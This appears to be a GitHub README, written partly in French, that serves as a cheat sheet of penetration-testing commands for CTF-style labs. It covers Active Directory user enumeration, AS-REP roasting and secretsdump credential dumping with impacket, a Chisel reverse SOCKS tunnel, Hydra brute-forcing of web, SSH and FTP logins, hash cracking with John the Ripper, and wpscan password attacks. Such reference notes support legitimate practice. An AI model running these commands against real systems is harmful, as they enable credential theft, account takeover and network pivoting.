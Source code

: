 - [Active Directory](#Active-Directory)
  - [Kerbrute](#Kerbrute)
  - [GetNPUUsers.py](#GetNPUUsers.py)
  - [Secretsdump.py](#Secretsdump.py)
- [Binwalk](#Binwalk)
- [Chisel](#Chisel)
- [Hydra](#Hydra)
  - [WEB](#WEB)
  - [SSH](#SSH)
  - [FTP](#FTP)   
- [JohnTheRipper](#JohnTheRipper)
- [Steghide](#Steghide)
- [WPSCAN](#WPSCAN)
- [7z Deziper avec password](#7z-Deziper-avec-password)


## Active Directory

### Kerbrute
```
kerbute userenum --dc 10.10.117.125 -d spookysec.local user_list.txt
```
### GetNPUsers.py
```
python /opt/impacket/examples/GetNPUsers.py -no-pass -usersfile user.txt -dc-ip 10.10.117.125 spookysec.local/
```
### Secretsdump.py
```
python3 /opt/impacket/examples/secretsdump.py -just-dc <user>@10.10.117.125
```

<br>
<br>

## Binwalk

```
binwalk <image> -e
```
<br>
<br>

## Chisel

```
chisel server -p 8001 --reverse
```
```
./chisel_amd64 client 10.50.111.37:8001 R:socks &
```
<br>
<br>

## Hydra
### WEB
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.0.156 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."
```
### SSH
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.10.0.156
```
### FTP
```
hydra -l <user> -P /usr/share/wordlists/rockyou.txt ftp://<ip>
```
<br>

## JohnTheRipper

```
zip2john file.zip > zip.hash 
john file.zip zip.hash

```
```
zip2john
ssh2john
rar2john
```

<br>

## Steghide

```
steghide extract -sf image.jpg
```

<br>

## WPSCAN

```
wpscan --url 10.10.188.11 -U kwheel -P /usr/share/wordlists/rockyou.txt
```
Fonctionne aussi avec une liste de user pour l'option `-U`

<br>

## 7z Deziper avec password

```
7z e file.zip
```
